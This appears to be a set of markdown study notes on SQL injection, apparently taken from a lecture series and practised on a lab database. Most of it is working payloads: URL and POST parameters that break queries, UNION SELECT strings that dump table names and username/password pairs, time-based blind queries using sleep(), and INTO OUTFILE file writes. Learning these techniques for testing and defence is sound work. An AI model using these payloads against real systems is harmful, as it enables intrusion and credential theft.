 # basic SQL Injection

## Lecture -1
 - installation
## Lecture -2 
 - Our purpose is to break the query of the url 
 - The comment is one of the most powerful tools here
   - #, --+, /* */ are few of the ways of commenting
```sql
    --the possible sql queries are - 
    select * from table where id='1';
    select * from table where id="1";
    select * from table where id=('1');
    select * from table where id=("1");
```
- Break the query by putting necessary delimeter
  - url?id=1--+
  - url?id=1'--+
  - url?id=1"--+
  - url?id=1')--+
  - url?id=1")--+
  - url?id=1")--+
  - url?id=anystring
  - url?id=1string
  - url?id=123135123412341234


- Use the area before `--+` to execute the qurey
  - url?id=1                  our injected code here                   --+
- Find how many columns inside the db table, use `order by` and after certain time you'll get error.
```sql

    select * from table where id='1' order by 1;
    select * from table where id='1' order by 2;
    select * from table where id='1' order by 3;
    select * from table where id='1' order by 4; -- error at certain point

    select col1, col2, col3 from table where id='1';

```
- after determining the column numbers our purpose is to execute the second query and we can do this by providing the input of the first query something that doesn't exist in the table as, id = -1. Then we union another select statement. Let's the statement is `select 1,2,3`, if the output is 2,3 then the server is returning the second and third column from the database. So we'll attack on those and get necessary data from.
```sql
    /*
    url?id=999' union select 1,2,3--+
    login: 2
    pass: 3
    */
    select * from table where id='999' union select 1,2,3
    /*
    url?id=999' union select 1,version(),database()--+
    */
    select * from table where id='999' union select 1,version(),3


    --
    -- necessary query to get table name, and all column name of a table
    select table_name from information_schema.tables where table_schema="table_name";
    select column_name from information_schema.columns where table_name='users';
    select 1,group_concat(col1), group_concat(col2) from users
    --


    -- read all the table_name of the current database
    /*
    url?id=999' union select 1,concat('~',version(),'~',database()),((select group_concat(table_name) from information_schema.tables where table_schema='security'))--+
    */

    --read all the column_name of a table
    /*
    url?id=999' union select 1,concat('~',version(),'~',database()),((select group_concat(column_name SEPARATOR ', ') from information_schema.columns where table_name='users'))--+

    */

    --get all the necessary data from the table
    /*
    url?id=999' union select 1,concat('~',version(),'~',database()),((select group_concat('`',username,'`:`',password) from security.users))--+
    */


```


# Lecture -3
- recap previous lectures


```sql 

    url?id=1' /*write all sql query here*/   --+

    #LECTURE - 2
    
    -- developer may use single quote inside the sql statement
    
    /* ''1'' LIMIT 0,1' at line 1  */
    /* '1'    --+'  */
    /* ''1\' LIMIT 0,1' at line 1 */
    /*select * from table where id= '  whatever_we_use_after_the_id_field_followed_by_the_?_marks  '*/


    #LECTURE -3
    
    -- developer may use double queote inside the sql statement

    /*select * from table where id= ('  whatever_we_use_after_the_id_field_followed_by_the_?_marks  ')*/
    -- it may be necessary to use ') to recorrect the query.




    ?id=999' union select 1, current_version, 5 --+

    select table_name from information_schema.tables where table_schema="security";

    /?id=999' union select 1,table_name, 5 from information_schema.tables where table_schema=database() limit 2,1 --+

    select column_name from information_schema.columns where table_name='users';

    (USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS,id,username,password)

    /?id=999' union select 1,group_concat(username), 5 from users --+

    /?id=999' union select 1,group_concat(username), group_concat(password) from users --+

    select 1,group_concat(username), 5 from users

    /?id=999' union select 1,group_concat(column_name), 5 from information_schema.columns where table_name='users' --+

    (Dumb,Angelina,Dummy,secure,stupid,superman,batman,admin,admin1,admin2,admin3,dhakkan,admin4)

    /?id=999' union select 1,group_concat(table_name), 5 from information_schema.tables where table_schema=database()--+

    /?id=999' union select 1, user(), 5 --+

    select 1, database()
```
## Blind Injection
- need to guess 
- types
  - boolean
  - time based
    - if answer is true then wait else back instantly.

```sql
    select substr( database(), 2,1);
    select length(database()) len;
    select database();
    select ascii( substr( database(), 2,1));
    select sleep(10);
    select if((select database())="security", sleep(10),null); -- wait 10 seconds if the database is security




```
## Dump file base injection
```sql

    select * from users into dumpfile "/test.txt";
    select * from users into outfile "/test.txt";

```

## Post based injection
```sql

    ")            #
    ") or 1=1     #
    ") or 1=1 limit 1,1 #
    ")  order by 3 #
    ")  order by 2 #
    ")  union select 1,2 #
    ")  union select version(),database() #


```

## Few built in methods of sql
    - current_user
    - database()
    - version()
    - user()
    - GROUP_CONCAT(column_name SEPARATOR ', ')
    - @@datadir
    - 

[ref](https://www.youtube.com/playlist?list=PLkiAz1NPnw8qEgzS7cgVMKavvOAdogsro)